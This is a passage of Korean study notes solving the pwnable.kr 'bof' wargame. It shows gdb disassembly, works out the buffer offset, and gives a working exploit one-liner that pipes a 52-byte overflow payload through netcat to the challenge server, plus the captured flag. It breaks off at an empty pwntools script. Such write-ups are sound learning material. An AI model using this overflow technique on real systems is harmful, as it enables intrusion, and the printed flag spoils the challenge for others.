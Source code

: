    - 즉 bof 실행 프로그램의 구조를 정확하게 파악해야함 (gdb 사용)
   - https://mintnlatte.tistory.com/581 (gdb 명령어 정리)
   - gdb의 disas 명령어를 통해 assmebly 
   - gdb bof 를 통해 gdb를 실행한 후 아래와 같은 명령어를 통해 각 함수의 메모리 덤프를 땀.
   - disas main
   ```
   Dump of assembler code for function main:
   0x0000068a <+0>:	push   %ebp
   0x0000068b <+1>:	mov    %esp,%ebp
   0x0000068d <+3>:	and    $0xfffffff0,%esp
   0x00000690 <+6>:	sub    $0x10,%esp
   0x00000693 <+9>:	movl   $0xdeadbeef,(%esp) <- 키 값
   0x0000069a <+16>:	call   0x62c <func> <---func 호출
   0x0000069f <+21>:	mov    $0x0,%eax
   0x000006a4 <+26>:	leave  
   0x000006a5 <+27>:	ret    
   End of assembler dump.
   ```
   - disas func
   ```
   Dump of assembler code for function func:
   0x0000062c <+0>:	push   %ebp
   0x0000062d <+1>:	mov    %esp,%ebp
   0x0000062f <+3>:	sub    $0x48,%esp
   0x00000632 <+6>:	mov    %gs:0x14,%eax
   0x00000638 <+12>:	mov    %eax,-0xc(%ebp)
   0x0000063b <+15>:	xor    %eax,%eax
   0x0000063d <+17>:	movl   $0x78c,(%esp)
   0x00000644 <+24>:	call   0x645 <func+25> <-- printf
   0x00000649 <+29>:	lea    -0x2c(%ebp),%eax <--overflowme
   0x0000064c <+32>:	mov    %eax,(%esp)
   0x0000064f <+35>:	call   0x650 <func+36> <---gets
   0x00000654 <+40>:	cmpl   $0xcafebabe,0x8(%ebp) <-- compare (if문)
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	movl   $0x79b,(%esp)
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	movl   $0x7a3,(%esp)
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    -0xc(%ebp),%eax
   0x0000067a <+78>:	xor    %gs:0x14,%eax
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
   End of assembler dump.
   ```
   - 여기서 문제의 힌트는 gets 함수를 이용해 공격하라고 함.
   - gets 함수는 읽어들일 문자열의 양이 지정되지 않았기 떄문에 overflow를 발생시키기 충분함. gets로 받는 주소는 overflowme[32]
   - overflowme와 key의 주소를 정확하게 파악하여 원하는 값을 넣는것이 관건
   - key의 주소는 쉽게 유추 가능함. if문 기준으로 0x8(%ebp)가 key의 위치, 이때 gdb에서의 해당 의미는 %ebp + 8위치
   - http://ehpub.co.kr/gets-%ED%95%A8%EC%88%98/
   - gets함수는 인자로 문자열을 저장할 버퍼 주소가 들어가는데, 이때 값을 받기 이전에 인자를 정리하기 위한 부분이 mov -0x2c(%ebp), eax 임.
   - 즉 overflowme의 시작 주소는 %ebp - 0x2c
   - 즉 0x2c + 8 = 0x34 byte만큼의 offset이 존재하므로 dword 기준 52개 이후 0xcafebabe를 입력해야 함.
   - 이때 bof 의 내용으로 보면, 실제 함수 실행시 인자로 (argv) 값을 넣어주는게 아닌 gets로 실행함.
   - 이때 문제에서 주어진 힌트인 pwnable.kr에 nc(netcat)으로 접근 
   - https://whackur.tistory.com/166
   - 이때 정방향 쉘 연결을 이용해 공격
   - (python -c 'print "A"*52 + "\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
   - cat flag -> daddy, I just pwned a buFFer :)
   - 이때 이 nc 의 기능은 파이썬  pwntools 에서도 사용 가능
   - pip install pwntools
   ```Python
   #!/usr/bin/python
   ```